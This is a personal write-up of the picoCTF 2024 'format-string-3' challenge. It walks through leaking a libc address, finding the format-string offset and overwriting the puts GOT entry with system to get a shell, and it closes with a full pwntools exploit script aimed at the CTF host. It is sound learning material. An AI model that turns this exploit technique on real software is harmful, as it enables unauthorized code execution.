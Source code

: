 # Description

_#Medium_<br>
_#Binary_Exploitation_<br>
_#picoCTF_2024_<br>
_#format_string_<br>
_#browser_webshell_solvable_<br>

This program ***doesn't contain a win function***. How can you win?<br>
Download the binary [here](format-string-3).<br>
Download the source [here](format-string-3.c).<br>
Download libc [here](libc.so.6), download the interpreter [here](ld-linux-x86-64.so.2).<br>
Run the binary with these two files present in the same directory.

## Solution

When I first looked at the challenge title, I immediately thought it would be very difficult for me. Initially, I didn’t even know where to start, so I decided to look for writeups online.  

To begin, I examined the source code to identify any vulnerabilities that could be exploited. After conducting some research, I realized this challenge was more complex than the previous ones. It required leaking an address and finding the input string offset to overwrite and replace the puts function with the system function. Ultimately, the program will be ended up by executing system("/bin/sh"), which spawns a shell, and thus I can get the flag from the shell.

![image](https://github.com/user-attachments/assets/6cc812fe-ad8a-4d4d-a782-3402ec58fc9e)<br>
**The source code.*

Once I understood the concept of exploiting this challenge, I began by running the provided program to observe its execution and output. To do this, I connected to the challenge instance on the PicoCTF site by entering the command nc rhea.picoctf.net 64550 in the Kali terminal. To test upon the input and observe the output, I input a simple string as input to the program, which will be printed back to stdout(buf) function call.

![image](https://github.com/user-attachments/assets/4fe4f694-24f7-4c0d-80e0-d365cdd464e1)<br>
**The stdin and stdout function call.*

In this case, I know I can use format specifiers to read arbitrary stack values.

> [!NOTE]
> Arbitrary stack value  
> From what I understand, it seems to involve the addresses for inputs. Whenever we enter something into the program, it gets stored in the program's background process. Hence, we can simply use the format specifiers like %x (hexadecimal) or %p (pointers) to read the arbitrary values from the program.

![image](https://github.com/user-attachments/assets/487a6098-68f9-41c7-9f82-aa99b42c927d)<br>
**The output of input testing.*

From this, I tested again with the input `AAAAAAAA%2$p` to observe the output. The result displayed 8's A followed by the second argument, which should correspond to the second memory address.

![image](https://github.com/user-attachments/assets/aa5e5a23-b732-4de1-9f2c-5aaef71add85)<br>
**The testing result.*

> [!TIP]
> Ideally, the format specifier **%n$p** where n is an offset to point exactly at the start of the input string. You can do this manually (%p, %2$p, %3$p…) until %p points to the desired input string.

Now, I can know the offset of the input string and hence can get use of the obtained offset to overwrite it. In this case, 

![image](https://github.com/user-attachments/assets/3311c030-448c-46ee-b452-1596aa511be0)


``` python
#!/usr/bin/env python3
from pwn import *

# Context setup
exe = "./format-string-3"
libc_path = "./libc.so.6"

context.binary = ELF(exe)
libc = ELF(libc_path)
context.terminal = ["tmux", "splitw", "-h"]

# Offset for the format string vulnerability
FMT_STR_OFFSET = 38


def leak_libc_base(io):
    """Leaks the libc base address from the provided setvbuf leak."""
    io.recvuntil(b'setvbuf in libc: ')
    setvbuf_leak = int(io.recvline().strip(), 16)
    log.info(f"Leaked setvbuf address: {hex(setvbuf_leak)}")

    libc_base = setvbuf_leak - libc.symbols["setvbuf"]
    log.info(f"Calculated libc base address: {hex(libc_base)}")

    libc.address = libc_base  # Set the base address for further calculations
    return libc_base


def create_payload():
    """Creates the format string payload to overwrite GOT entry for `puts`."""
    target_address = context.binary.got["puts"]
    system_address = libc.symbols["system"]
    log.info(f"Target address (GOT entry for puts): {hex(target_address)}")
    log.info(f"New function address (system): {hex(system_address)}")

    payload = fmtstr_payload(FMT_STR_OFFSET, {target_address: system_address})
    log.info(f"Generated payload: {payload}")
    return payload


def main():
    # Connect to the target binary (remote or local)
    io = remote("rhea.picoctf.net", 64550)

    # Attach GDB for debugging if required
    if args.GDB:
        gdb.attach(io, gdbscript="b *main+127\ncontinue")

    # Leak libc base address
    libc_base = leak_libc_base(io)

    # Create the payload to exploit the format string vulnerability
    payload = create_payload()

    # Send the payload
    io.sendline(payload)

    # Get an interactive shell
    io.interactive()


if __name__ == "__main__":
    main()
```
**This script was written with reference to [online author].(https://blog.thecyberthesis.com/blog/writeups/picoCTF/pwn/format-string-3).*
